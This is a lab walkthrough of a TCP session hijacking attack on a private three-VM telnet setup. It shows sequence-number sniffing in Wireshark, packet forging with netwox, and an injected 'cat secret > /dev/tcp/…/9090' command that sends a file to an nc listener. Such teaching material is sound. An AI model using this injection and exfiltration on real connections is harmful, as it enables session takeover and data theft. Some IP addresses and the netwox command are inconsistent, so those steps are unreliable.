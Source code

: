 Lauching the TCP Session Hijacking Attack

Since the TCP protocol does not verify the TCP transport packet, we can easily forge the transport packet after we know the seq and ack information in a TCP connection. 

To see a TCP session hijacking attack in action, we will launch it in our VM environment. Here, take the telnet connection as an example and use three virtual machines for demonstration.

1. User 10.0.2.15

2. Server 10.0.2.16

3. Attacker 10.0.2.17

Attacker tools: wireshark, netwox

Procedures:

To begin with, a user (the victim) first establishes a telnet connection from User to Server, and the attacker would like to hijack this connection, and run an arbitrary command on Server, using the victim’s privilege. To launch a successful TCP session hijacking attack, the attacker needs to know the sequence numbers of the targeted TCP connection, as well as the other essential parameters, including source/destination port numbers and source/destination IP addresses. In the above setup, all three VMs are on the same LAN. Therefore, the attacker can run Wireshark on Attacker to find out all the essential data about the targeted connection. The information of the last data packet sent from User to Server can be found in Wireshard by filtering the records with keywords "talnet" and scrolling down to the last one. Note that there are two sequence numbers in the figure, one says “Sequence number”, and the other says “Next sequence number”. We should use the second number, which equals to the first number plus the length of the data. If the length is zero (e.g., for ACK packets), the packet does not consume any sequence number, so these two numbers are the same, and Wireshark will only display the first number.

Upon clicking the last record in Wireshark, we could know the below information from the sniffed packet:

1. Source: 10.0.2.15 (User)
2. Destination: 10.0.2.16 (Server)
3. Source Port: 44425
4. Destination port: 23
5. Sequence number: 691070837
6. Next Sequence number: 691070839 [this is the sequence number for our attack packet]
7. Acknowledgement number: 3545452504
8. Header length: 32 bytes

Then we construct the TCP payload, which should be the actual command that we would like to run on the server machine. There is a file named "secret" in the user’s account on Server. We can print out the content using the cat command, but the printout will be displayed on the server machine, not the attacker machine. What the attack does is to redirect the printout to the attacker machine. To achieve that goal, we run a TCP server program on the attacker machine, so once our command is successfully executed on Server, we can let the command send its printout to this TCP server. We let the nc (or netcat) utility wait for a connection, and print out whatever comes from that connection. We run the nc command to set up a TCP server listening on port 9090. 

​	seed@Attacker(10.0.2.17): $ nc -l 9090 -v

​	seed@Server(10.0.2.16): $ cat /home/seed/secret > /dev/tcp/10.0.2.17/9090 

The cat command above prints out the content of the secret file, but instead of printing it out locally, the command redirects the output to a file called /dev/tcp/10.0.2.16/9090. This is not a real file; it is a virtual file in the /dev folder, which contains special device files. The /dev/tcp file is a pseudo device: when we place data into /dev/tcp/10.0.2.17/9090, the pseudo device is invoked, which creates a connection with the TCP server listening on port 9090 of 10.0.2.17, and sends the data via the connection. As soon as we run the above cat command, the listening server on the attacker machine will get the content of the file. The result is shown in the following

seed@Attacker(10.0.2.17):˜$ nc -l 9090 -v 

Connection from 10.0.2.17 port 9090 [tcp/*] accepted 

********************

This is top secret! 

********************

The above was just running the command directly on Server. Obviously, attackers do not have access to Server yet, but using the TCP session hijacking attack, they can get the same command into an existing telnet session. To launch the attack, we need to get the hex value of this command string. Here we use a command in Python. See the following:

seed@Attacker(10.0.2.17): $ python 

\>\>\>"\ncat /home/seed/secret   \>

​       /dev/tcp/10.0.2.16/9090\n".encode("hex") ’0a636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31362f393039300a’ 

Then it is ready to launch the attack. We need to be able to generate a TCP packet with certain fields set by us. So we use netwox tool 40, which allows us to set each single field of a TCP packet in the command line. Using the information collected above, we set the options of the netwox tool 40 like the following, and run the command. This action forges the User to send a TCP packet to the Server.

seed@Attacker(10.0.2.17): $ netwox 40 --ip4_src 10.0.2.15 --ip4-dst 10.0.2.16 --tcp-src 44425 --tcp-dst 23 --tcp-seqnum 691070839 --tcp-acknum 3545452504

It should be noted that we should run the "nc -l 9090 -v" command first on the attacker machine to wait for the secret. If the attack is successful, the nc command then print out the content of the secret file. If not, it might be caused by the incorrect sequence number. After the successful transmission, the original User will lose the connection, and the Server will regard the attacking machine as the User, so that the attacking machine realizes the session hijacking.

--------------------------------------------------------------------------------------------------

What happens to Hijacked TCP Connection?

After a successful attack, we go to the user machine, and type something in the telnet terminal. The program does not respond to our typing any more -- it freezes. When we look at the Wireshark, we can see that there are many retransmission packets between User (10.0.2.15) and Server (10.0.2.16).

The injected data by the attacker messes up the sequence number from User to Server. When Server replies to our spoofed packet, it acknowledges the sequence number (plus the payload size) created by us, but User has not reached that number yet, so it simply discards the reply packet from Server and will not acknowledge receiving the packet. Without being acknowledged, Server thinks that its packet is lost, so it keeps retransmitting the packet, which keeps getting dropped by User. 

On the other end, when we type something in the telnet program on User, the sequence number used by the client has already been used by the attack packet, so the server will ignore these data, treating them as duplicate data. Without getting any acknowledgment, the client will keep resending the data. Basically, the client and the server will enter a deadlock, and keep resending their data to each other and dropping the data from the other side. After a while, TCP will disconnect the connection. 

